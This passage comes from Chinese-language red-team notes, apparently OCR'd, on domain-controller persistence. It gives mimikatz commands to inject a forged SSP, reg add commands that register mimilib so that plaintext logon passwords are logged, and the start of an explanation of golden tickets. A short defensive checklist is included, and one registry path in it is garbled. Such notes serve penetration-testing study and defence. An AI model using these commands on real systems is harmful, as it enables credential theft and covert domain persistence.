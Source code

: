 使用mimikatz将伪造的SSP注入内存。这样做不会在系统中留下二进制文件

但如果域控制器重启，被注入内存的伪造的SSP将会丢失。

在实际网络维护中，可以针对这一点采取相 应的防御措施。

在域控制器中以管理员权限打开mimikatz,分别输入如下命令：

```csharp
privilege::debug
misc::memssp
```

注销一下

密码存储在日志文件 `C:\Windows\System32\mimilsa.log` 中

### 利用mimikatz下的`mimicom.idl`文件(现在被查杀)

将它复制到System32文件目录下  
并将 mimilib添加到注册表中就可以了修改`HKEY_LOCAL_MACHINE/System/CurrentControlSet/Control/Lsa/Security Packages`项，加载新的DLL文件！

就是powershell下的两条命令

```csharp
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```

覆盖掉就可以了

重启一下

系统重启后，如果DLL被成功加载，用户在登录时输入的账户密码明文就会被记录在 `C:\windows\system32\kiwissp.log` 中

### 防御措施

SSP维持域控制器权限的防御措施  
1.检查 HKEY LOCAL MCNSSrCnContooCotroro sScrt Packages 项中是否含有可疑的 DLL 文件。  
2.检查C:WindowsSystem32\\目录下是否有可疑的DLL文件。  
3.使用第三方工具检查LSA中是否有可疑的DLL文件。

SID History后门
-------------

就是黄金和白银票据

操作就不再阐述了，写一写底层

### 黄金票据

#### 原理

在Kerberos认证中，当客户端通过AS认证后，AS会给客户端一个TGT，kbrtgt的NTLM hash的又是固定的 因此可以得到krbtgt用户的NTLM hash，就可以伪造TGT进行下一步客户端与TGS的交互

而且有了金票后 就跳过了AS验证，不用验证账号和密码，因此不用担心域管理员修改密码
